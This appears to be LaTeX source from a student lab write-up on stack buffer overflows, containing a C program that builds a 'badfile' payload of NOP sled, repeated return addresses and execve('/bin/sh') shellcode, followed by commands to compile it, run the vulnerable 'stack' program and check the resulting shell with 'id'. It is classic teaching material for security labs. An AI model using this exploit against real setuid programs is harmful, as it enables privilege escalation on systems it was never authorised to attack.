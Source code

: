 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}
/* exploit.c  */
/* A program that creates a file containing code for launching shell */
#include <stdio.h>
#include <string.h>
char shellcode[] =
    "\x31\xc0"   /* xorl    %eax,%eax   */
    "\x50"       /* pushl   %eax        */
    "\x68""//sh" /* pushl   $0x68732f2f */
    "\x68""/bin" /* pushl   $0x6e69622f */
    "\x89\xe3"   /* movl    %esp, %ebx  */
    "\x50"       /* pushl   %eax        */
    "\x53"       /* pushl   %ebx        */
    "\x89\xe1"   /* movl    %esp, %ecx  */
    "\x99"       /* cdql                */
    "\xb0\x0b"   /* movb    $0x0b, %al  */
    "\xcd\x80"   /* int     $0x80       */
    ;

/* Return the address of the top of the stack */
unsigned long getStackPointer(void)
{
    __asm__("movl %esp,%eax");
}

int main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialise buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    char *bufferPointer;
    long *addressPointer;
    long returnAddress;
    int offset = 500;

    int position = sizeof(buffer) - (sizeof(shellcode) + 1);

    bufferPointer = buffer;
    addressPointer = (long *)(bufferPointer);
    returnAddress = (long) getStackPointer() + offset;

    /* Fill out the first 20 positions of the buffer with the return address */
    for (int i = 0; i < 20; i++)
        *(addressPointer++) = returnAddress;

    /* Insert shellcode towards the end of the buffer */
    for (int i = 0; i < sizeof(shellcode); i++)
        buffer[position + i] = shellcode[i];

    /* Terminate our shellcode at the end of the buffer with null */
    buffer[sizeof(buffer) - 1] = '\0';

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}    
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
gcc -o exploit exploit.c
./exploit
./stack
id
exit
    \end{verbatim}
\end{framed}
\end{document}
